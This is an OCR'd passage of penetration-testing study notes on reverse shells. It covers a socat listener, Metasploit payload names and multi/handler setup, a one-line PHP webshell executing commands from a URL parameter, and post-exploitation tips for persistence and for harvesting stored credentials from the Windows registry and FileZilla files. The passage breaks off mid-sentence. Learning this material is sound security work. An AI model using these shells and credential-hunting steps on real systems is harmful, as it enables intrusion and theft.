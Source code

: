 ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```
`<os>/<arch>/<payload>`

Stageless:

`linux/x86/shell_reverse_tcp`

`linux/x86/meterpreter_reverse_tcp`

Staged:

`linux/x86/shell/reverse_tcp`

`linux/x86/meterpreter/reverse_tcp`

Windows 32bit:

`windows/shell_reverse_tcp`


### Metasploit multi/handler

Start multi/handler:

`use multi/handler`

Set options:

`set LHOST <listen-address/interface>`

`set PAYLOAD <payload>`

`set LPORT <listen-port>`

Run with `exploit`, add `-j` tag to run in background. 

Interact with `sessions <session-number>`

### Webshells

Colloquial term for a script that runs inside a webserver (ususally in PHP or ASP) which 
executes code on the server.

Basic PHP shell:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

After upload, execute from URL with `www.site.com/path/to/webshell?cmd=` parameter.

For Windows targets we can use a URL encoded powershell reverse shell as the `cmd` argument.

### Next Steps

After we gain a shell we want to escalate into a normal method for accessing the machine; 
ssh keys, passwords, add our own account etc.

On Windows machines it's possible to find passwords for running services in the registry.
VNC servers frequently leave plaintext passwords in the registry and FIleZilla FTP server
also leave credentials in an XML file:

`C:\Program Files\FileZilla Server\FileZilla Server.xml` or 
`C:\xampp\FileZilla Server\FileZilla Server.xml`

If you obtain a shell running as the SYSTEM user or an admin account you can add your own 
```